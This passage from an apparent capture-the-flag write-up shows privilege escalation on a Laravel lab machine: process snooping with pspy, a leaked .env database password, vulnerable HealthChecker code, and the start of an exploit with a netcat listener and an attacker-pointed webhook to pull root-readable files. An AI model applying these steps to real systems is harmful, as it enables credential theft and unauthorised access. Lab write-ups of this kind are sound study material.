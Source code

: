 
## Pspy32
Import `pspy32` from local machine to target machine and check for running process.

We see 2 process which is interesting and run by root user. They are:
```
2022/09/01 14:21:01 CMD: UID=0    PID=3337   /bin/bash -c cd /var/www/html && php artisan schedule:run >> /dev/null 2>&1 
2022/09/01 14:19:06 CMD: UID=0    PID=3317   | mysql laravel --execute TRUNCATE tasks
```
  
We found `.env` file in `/var/www/html` which contains following value:
```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=laravel
DB_USERNAME=laravel
DB_PASSWORD=MYsql_strongestpass@2014+
```

We get the username, password and database name.

Also in file `/var/www/html/app/Http/Controllers/HealthChecker.php`, we found:
```
public static function check($webhookUrl, $monitoredUrl, $onlyError = false)
    {

        $json = [];
        $json['webhookUrl'] = $webhookUrl;
        $json['monitoredUrl'] = $monitoredUrl;

        $res = @file_get_contents($monitoredUrl, false);
        if ($res) {

            if ($onlyError) {
                return $json;
            }

            $json['health'] = "up";
            $json['body'] = $res;
            if (isset($http_response_header)) {
            $headers = [];
            $json['message'] = $http_response_header[0];

```

In above code, the `$monitoredUrl` is used to pass the file which can be controlled from mysql.

Let's Exploit.
- Step 1: Listen on port 80 in local machine using netcat. Command: `nc -lvnp 80`.
- Step 2: Create webhook to your local machine. 